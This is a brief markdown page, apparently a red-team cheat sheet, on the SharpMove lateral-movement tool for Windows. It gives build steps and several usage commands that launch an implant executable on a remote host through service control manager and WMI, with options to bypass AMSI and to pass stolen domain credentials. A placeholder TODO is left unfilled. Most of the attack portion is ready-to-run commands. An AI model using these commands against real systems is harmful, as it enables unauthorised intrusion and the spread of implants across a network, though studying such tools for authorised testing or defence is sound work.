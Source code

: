 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - lateral-movement
  - service-control-manager
  - offensive-tools
  - windows
---
```

# Binaries

TODO: Fill this info (refer to links)

## SharpMove

### Compile

Install a targeting pack from this [link](https://dotnet.microsoft.com/en-us/download/dotnet-framework/net481).  Then compile `SharpMove`.

```
C:\> git clone https://github.com/0xthirteen/SharpMove.git

C:\> cd SharpMove

C:\SharpMove> dotnet build -c Release -p:TargetFrameworkVersion=v4.8.1
```

### Usage

```
SharpMove.exe action=scm computername=<computername>.<domain>.<tld> command="C:\remote\path\to\implantsvc.exe" servicename=<ServiceSVC> amsi=true [username=<domain>\<username> password=<password>]
```

```
C:\> .\SharpMove.exe action=query computername=<computername>.<domain>.<tld> query="SELECT * from Win32_Process" username=<domain>\<username> password=<password>
```

```
C:\> .\SharpMove.exe action=create computername=remote.host.local command="C:\remote\path\to\implant.exe" amsi=true username=<domain>\<username> password=<password>
```

---
## References

- [SharpMove](https://github.com/0xthirteen/SharpMove)

- [Hacking Articles: Remote Services (Mitre:T1021)](https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/)